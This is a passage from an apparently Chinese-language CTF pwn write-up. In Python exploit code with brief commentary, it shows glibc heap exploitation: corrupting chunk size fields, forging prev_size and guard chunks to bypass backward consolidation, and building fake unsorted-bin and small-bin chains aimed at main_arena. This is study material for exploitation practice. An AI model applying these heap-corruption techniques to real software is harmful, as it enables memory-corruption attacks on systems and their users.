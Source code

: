 ![](https://raw.githubusercontent.com/4ak5ra/image/main/scanf结束.png)   
可以看到这里我发了 0x10000 的 0 数据和一个 0x2450 的数据，然后 topchunk 这里有一个 0xfd51 就是复制缓冲区数据剩下的 size

```python
free3(0xd59) # 这里就是污染 0x11 堆块之后的堆块的 size 位置
#............
add(1, b"a" * 0x10 + p64(0) + p64(0x31) + p64(heap_base+0x2c0) * 2 +  b"a" * 0x10 + p64(0x30) + p64(0xd00))
#--伪造 consolidate backward 的数据，留出 1 的指针域供后面伪造就行，
#--并扩大 2 的 size 使其利用上 topchunk 的保护堆块绕过 consolidate backward 的取 unsortedbin 操作
free()

add(2, b"a" * 0x50 + p64(0x90) + p64(0x10) + p64(0x00) + p64(0x11))
free()
#--伪造 2 的保护堆块和 prev_size
```
然后在我们 1 的区域伪造 smallbin 就行
```python
# 这里就开始修改 Unsorted bin 内容，使得在 Unsorted bin 内伪造一个 Small bin 大小的堆块
add(1, flat({
    0x10: 0,
    0x18: 0x91,
    0x20: heap_base + 0x380,
    0x28: libc_base + 0x219ce0,
}, filler=b"\x00"))
show2(0x1000) # 这里触发使得 Unsorted bin 进入 Samll bin
free()
```
再通过 1 去修改 small bin 的指针来构建 small bin 链增加 count
```python
add(1, flat({
    0x10 : {
            0x00: 0,
            0x08: 0x91,
            0x10: heap_base + 0x2c0,
            0x18: heap_base + 0x2c0 + 0x30, #下一个 fake small bin
             
            0x30: 0,
            0x38: 0x91,
            0x40: heap_base + 0x2c0,
            0x48: heap_base + 0x2c0 + 0x50,
 
            0x50: 0,
            0x58: 0x91,
            0x60: heap_base + 0x2c0 + 0x30,
            0x68: libc_base + 0x219d60  #main_arena
        }
    }
, filler=b"\x00"))
free()
```
![](https://raw.githubusercontent.com/4ak5ra/image/main/bin.png)    

